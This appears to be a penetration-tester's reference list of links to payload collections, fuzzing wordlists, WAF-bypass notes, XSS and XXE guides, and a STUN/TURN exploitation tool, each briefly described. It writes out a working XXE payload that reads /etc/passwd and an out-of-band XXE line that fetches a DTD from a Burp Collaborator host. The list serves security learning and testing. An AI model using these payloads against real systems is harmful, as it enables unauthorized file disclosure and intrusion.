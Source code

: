 https://www.slideshare.net/snyff/code-that-gets-you-pwnsd
<br># Code that gets you pwn(s|'d). Very intersting bypasses ideas.

### General
https://github.com/firefart/stunner
<br># Stunner is a tool to test and exploit STUN, TURN and TURN over TCP servers. TURN is a protocol mostly used in videoconferencing and audio chats (WebRTC).
<br>```stunner info -s x.x.x.x:443```

## Manual

### Payloads
https://github.com/six2dez/OneListForAll
<br># This is a project to generate huge wordlists for web fuzzing, if you just want to fuzz with a good wordlist use the file onelistforallmicro.txt.

https://github.com/swisskyrepo/PayloadsAllTheThings
<br># PayloadsAllTheThings

https://github.com/RenwaX23/XSS-Payloads
<br># List of XSS Vectors/Payloads i have been collecting since 2015 from different resources like websites,tweets,books.

https://github.com/0xacb/recollapse
<br># REcollapse is a helper tool for black-box regex fuzzing to bypass validations and discover normalizations in web applications.

https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html
<br># Unicode normalization good for WAF bypass.
  
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
<br># This cross-site scripting (XSS) cheat sheet contains many vectors that can help you bypass WAFs and filters. You can select vectors by the event, tag or browser and a proof of concept is included for every vector.

https://portswigger.net/web-security/xxe
<br># XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
<br>```<?xml version="1.0" encoding="UTF-8"?>```
<br>```<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>```
<br>```<stockCheck><productId>&xxe;</productId></stockCheck>```

https://phonexicum.github.io/infosec/xxe.html
<br># Information Security PENTEST XXE
<br>```<!DOCTYPE foo SYSTEM "http://xpto.burpcollaborator.net/xpto.dtd">```

https://github.com/GoSecure/dtd-finder
<br># Identify DTDs on filesystem snapshot and build XXE payloads using those local DTDs.

https://www.blackhat.com/us-17/briefings.html#a-new-era-of-ssrf-exploiting-url-parser-in-trending-programming-languages
<br># We propose a new exploit technique that brings a whole-new attack surface to bypass SSRF (Server Side Request Forgery) protections.
<br>https://github.com/orangetw/Tiny-URL-Fuzzer/blob/master/samples.txt
